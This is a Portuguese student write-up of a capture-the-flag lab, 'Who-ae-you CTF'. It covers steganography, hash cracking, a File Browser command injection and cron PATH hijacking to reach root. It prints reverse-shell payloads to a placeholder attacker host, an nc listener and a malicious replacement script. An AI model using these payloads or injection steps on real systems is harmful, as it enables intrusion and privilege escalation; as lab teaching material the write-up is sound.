





# Relatório CTF: Who-ae-you CTF
Disciplina: Tópicos avançados em Computadores

Alunas:
Maria Eduarda Vidal         232013238
Laura Marques de Souza      211068397
Regina Emy                  190037351

Este documento descreve o caminho técnico para comprometer o ambiente do laboratório, desde a enumeração inicial até o escalonamento de privilégios para acesso root.

---

# Setup
```
docker compose build  --progress=plain  && docker compose up -d
```

## Configure a Vulnerabilidade em File Browser
acesse `http://localhost:93/settings/global`
user `armageddon` 
senha `fSVRTGsfewrfesfgeRGVRSVBSR`

scroll down até `After Rename`
e setar 
```
sh -c "echo this old filename has been changed and is now deprecated: \$FILE"
```
este comando roda cada vez que ocorre rename de arquivo.


## Nota
Foi feito download de python e binutils pra facilitar. Se ficar muito grande, pode retirar esses dois packages em `dockerfile`
---
# Walkthrough

## 1. Enumeração e Foothold

### 1.1. Exploração Inicial (index.html)

O processo de enumeração teve início no servidor web disponível na porta **8080**. Ao acessar a página **index.html**, foram identificados arquivos de mídia que continham indícios importantes para a continuidade da exploração.


Inicialmente, foi realizada uma requisição utilizando **curl** para inspecionar o conteúdo retornado pelo servidor. A resposta permitiu identificar referências ao caminho **/scene1**, indicando que essa seria a próxima página a ser investigada.


Com a existência da página **/scene1** identificada, iniciou-se a análise dos arquivos de mídia presentes no ambiente. Para isso, foi utilizada a ferramenta **exiftool**, responsável por extrair os metadados do vídeo disponibilizado na página inicial.

```text
exiftool welcome.mp4
```

A inspeção dos metadados revelou informações adicionais relacionadas à narrativa do desafio e confirmou que a exploração deveria prosseguir pela página **/scene1**.


Na página **/scene1**, foi realizada a análise do arquivo GIF utilizando o comando **strings**. Essa etapa revelou referências à lore do desafio e permitiu identificar o salt **lexistence**, utilizado posteriormente durante a quebra do hash.

```text
strings SALTy_and_sweet.gif
```

O valor identificado foi:

```text
lexistence
```


Também foi inspecionado o código-fonte da página, permitindo confirmar a referência ao arquivo GIF utilizado na etapa anterior.


Em seguida, foi realizada uma nova análise de metadados utilizando o **exiftool**, desta vez sobre o vídeo presente em **scene1**.

```text
exiftool strange_phenomenon_giselle.mp4
```

Saída obtida:

```text
Encoder                         : $6$<yummy>$
XMP Toolkit                     : Yp2586tEONHHNO8K2K4eAH6iEajQEV6HHPg65vkXQFWLGVO9K9fg.TWDrhqsqXlgLpV55qwAgOUGlEsO//EY//
Artist                          : YWVzcGFGaWxlcw==
```

O campo **Artist** encontrava-se codificado em Base64 e foi decodificado conforme mostrado abaixo.

```text
echo -n "YWVzcGFGaWxlcw==" | base64 -d
```

Resultado:

```text
aespaFiles
```

Já o conteúdo presente nos campos **Encoder** e **XMP Toolkit** correspondia a um hash **SHA-512 Crypt**. Após sua identificação, foi utilizada a ferramenta **Hashcat** juntamente com a wordlist **rockyou.txt** para recuperar a senha.

```text
hashid -m '$6$lexistence$Yp2586tEONHHNO8K2K4eAH6iEajQEV6HHPg65vkXQFWLGVO9K9fg.TWDrhqsqXlgLpV55qwAgOUGlEsO//EY//'

hashcat -m 1800 -a 0 hash.txt rockyou.txt
```

Resultado obtido:

```text
Usuário: aespaFiles
Senha: cooper
```



A recuperação dessas credenciais permitiu autenticar-se no serviço FTP, possibilitando a continuidade da exploração do ambiente.

---

### 1.2. /run

Além das informações obtidas em **scene1**, a página **/run** continha novas pistas necessárias para prosseguir no desafio. Foram analisadas todas as imagens disponibilizadas utilizando **strings**, bem como mensagens codificadas em Base64 presentes em seus arquivos.


Durante essa análise, verificou-se que a personagem **Ningning** continha dois hashes. O primeiro, em SHA-512, pôde ser quebrado diretamente utilizando serviços como o CrackStation. O segundo correspondia a um hash **bcrypt**, cuja recuperação foi realizada utilizando uma wordlist personalizada.

NOTA: Qualquer wordlist utilizada aqui pode ser substituída pela rockyou

```text
echo "supernovaflyingbakekang" > wordlist.txt

echo '$2y$10$QeZOHz29PR59KijGcxR/bu0BcqKvWo23IY7lduxbKiwqIJ8aBjtvq' > hash.txt

hashcat -m 3200 -a 0 hash.txt wordlist.txt
```

Além disso, as mensagens associadas à personagem **Winter** e as imagens da **Karina** continham dicas relacionadas às portas utilizadas pelos serviços do desafio. Essas informações foram fundamentais para localizar tanto o servidor FTP quanto o File Browser.

---

### 1.3. FTP (Porta 48)

Utilizando as credenciais obtidas anteriormente (**aespaFiles:cooper**), foi possível autenticar-se no servidor FTP. Entre os arquivos disponíveis encontrava-se o vídeo **complaexity_trailer.mp4**, que passou por uma análise utilizando a ferramenta **Binwalk**.

```text
binwalk -e complaexity_trailer.mp4
```

A extração revelou a imagem **PortOfSelf.jpg**, que continha informações ocultas por meio de técnicas de esteganografia.

Para recuperar esse conteúdo, foi utilizado o **Steghide** juntamente com a senha **complexity**, descoberta anteriormente durante a análise da página **/run**.

```text
steghide extract -sf PortOfSelf.jpg -p "complexity"
```

Como resultado, foi extraído o arquivo **who_are_they.txt**, contendo as seguintes informações:

```text
Usuário: complexity
Senha: complexitytrailer
Serviço: File Browser
```

Com as credenciais recuperadas, restava apenas identificar a porta onde o File Browser estava em execução. Utilizando a dica fornecida anteriormente ("flying under 1000m"), realizou-se um escaneamento das portas abaixo de 1000.

```text
nmap -sS -p-1000 target_ip
```

A identificação da porta, juntamente com as credenciais obtidas, possibilitou o acesso ao File Browser e marcou o início da próxima fase da exploração.

---

## 2. Acesso Inicial via RCE (File Browser)

Após identificar a porta correta, foi realizado o login no **File Browser** utilizando as credenciais **complexity:complexitytrailer**. A versão do File browser observada revelou a presença da vulnerabilidade **CVE-2026-35585**, caracterizada por uma falha de **Command Injection** no hook **after_rename**.

Há um diretório com dois arquivos. 
É intrigante que um deles seja no formato mkv, especialmente quando os outros vídeos eram em formatos mais comprimidos. 

Este é um formato apropiado para esconder informações pois não é admitida perda de dados

Fazendo a análise do vídeo, encontr-se uma frase
```
$ffmpeg -i rich_man.mkv -map 0:a -c copy audio.wav
$steghide extract -sf audio.wav -p supernovaflyingbakekang
wrote extracted data to "foothold_b64.txt".
```
Encontra-se 
``
$cat foothold_b64.txt | base64 -d
sh -c "echo this old filename has been changed and is now deprecated: \$FILE"
``


Então, assume-se que um admin tenha setado essa configuração.
`sh -c "echo this old filename has been changed and is now deprecated: \$FILE"`

Cada vez que o arquivo é renomeado, há um comando com seu nome antigo.

Como a variável **$FILE** era utilizada sem qualquer mecanismo de sanitização, tornou-se possível injetar comandos arbitrários durante a renomeação de arquivos.

Foi criado um arquivo qualquer no File Browser e, durante sua renomeação, foi utilizado o seguinte payload de reverse shell:

```text
sh -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

Renomeio o arquivo novamente, exemplo
```text
sh -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1;
```


Antes da execução, foi iniciado um listener na máquina atacante.

```text
nc -lnvp 4444
```

Ao confirmar a renomeação, o hook executou o payload injetado, estabelecendo uma conexão reversa e fornecendo um shell interativo com os privilégios do usuário **supernova**.


 Esse acesso permitiu iniciar a busca por mecanismos de escalonamento de privilégios presentes no sistema.

a flag esta em
```
strings ning_forgot_the_password_flag.gif 
```

---

## 3. Escalonamento de Privilégios (PrivEsc)

Após obter acesso como o usuário **supernova**, iniciou-se a análise do sistema em busca de mecanismos que possibilitassem a obtenção de privilégios administrativos.

### 3.1. Git & Cron

Durante a investigação dos diretórios pertencentes ao usuário, foi identificado um repositório Git. A análise do histórico, utilizando os comandos **git log** e **git show**, revelou que arquivos contendo informações sensíveis haviam sido removidos do diretório de trabalho, mas permaneciam registrados nos commits anteriores.

Entre essas informações foi encontrada a seguinte credencial:

```text
password: sususu_mixed_the_aes_and_the_aespa
```

A senha recuperada possibilitou a utilização do **sudo**, permitindo inspecionar serviços executados com privilégios elevados.

Em seguida, foi analisado o conteúdo do diretório **/etc/cron.d/**, onde foi identificado o cronjob responsável pela execução automática do binário **singularity**.

```text
sudo cat /etc/cron.d/wda4
```

Saída:

```text
PATH=/home/supernova/singularity:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root singularity >> /var/log/singularity.log 2>&1
```

Observou-se que o diretório controlado pelo usuário aparecia antes dos diretórios padrão do sistema na variável **PATH**, abrindo espaço para um ataque de **Path Hijacking**.

### 3.2. Path Hijacking

Aproveitando essa configuração, foi criado um executável malicioso chamado **singularity** dentro do diretório controlado pelo usuário.

```text
mkdir singularity
cd singularity

echo '#!/bin/bash' > singularity
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4441 0>&1' >> singularity

chmod +x singularity

export PATH=/home/supernova/singularity:$PATH
```

Quando o cronjob foi executado novamente, o sistema localizou primeiro o executável criado durante a exploração e o executou com privilégios de **root**. Como resultado, foi estabelecida uma nova reverse shell, desta vez com privilégios administrativos, concluindo o processo de escalonamento.


## 4. Flag

```
root flag{👽 Only I can define myself}
```

## 5. Conclusão

O desafio **Who-ae-you CTF** apresentou uma cadeia de exploração completa, combinando esteganografia em mídias, quebra de hashes, injeção de comando em aplicação web, recuperação de credenciais no histórico do Git e path hijacking em cron job. Cada etapa forneceu os elementos necessários para a seguinte, demonstrando uma progressão lógica e realista de um processo de invasão.
